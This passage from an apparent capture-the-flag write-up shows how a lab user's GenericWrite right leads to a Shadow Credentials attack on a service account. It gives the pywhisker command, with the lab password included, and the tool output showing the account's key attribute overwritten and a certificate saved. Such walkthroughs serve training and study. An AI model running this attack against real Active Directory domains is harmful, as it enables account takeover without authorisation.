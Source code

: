 ![bloodhound_judith_fullrights_2](./screenshots/bloodhound_judith_fullrights_2.png)

> user `judith.mader` being a member of group `Management` has `GenericWrite` permissions on user `management_svc`

---
> **Note:** `GenericWrite` is a permission that allows you to `change/rewrite` attributes of objects in the system (**groups**, **users**, **computers**, etc.)
---

> This privilege gives us the ability to use the `ShadowCredentials` attack - our access to the `management_svc` service account.

### 🔑 Shadow Credentials

---
> **Note:** `Shadow Credentials` is an attack technique that essentially overwrites the `msDS-KeyCredentialLink` attribute of the `management_svc` object by adding an entry
> containing our pre-generated public key and thus tricking `AD` into thinking that the `management_svc` user has a legitimate authentication method via a trusted certificate
> in addition to the password (**which we don't know**). In simple terms - we simply **add a new authentication method** for the `management_svc` user.
---

> To implement this attack I use the `pyWhisker` utility:

```bash

sudo python3 pywhisker.py -a add -t management_svc -u judith.mader -p judith09 --dc-ip 10.10.11.41 -d certified.htb -v

```
> Result:

```bash

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 4a56e83b-413d-87d0-02eb-698b6987cac9
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[VERBOSE] No filename was provided. The certificate(s) will be stored with the filename: sZBxFbe3
[VERBOSE] No pass was provided. The certificate will be stored with the password: oANpwVqVEGdppJjpLxil
[*] Converting PEM -> PFX with cryptography: sZBxFbe3.pfx
[+] PFX exportiert nach: sZBxFbe3.pfx
[i] Passwort für PFX: oANpwVqVEGdppJjpLxil
[+] Saved PFX (#PKCS12) certificate & key at path: sZBxFbe3.pfx
```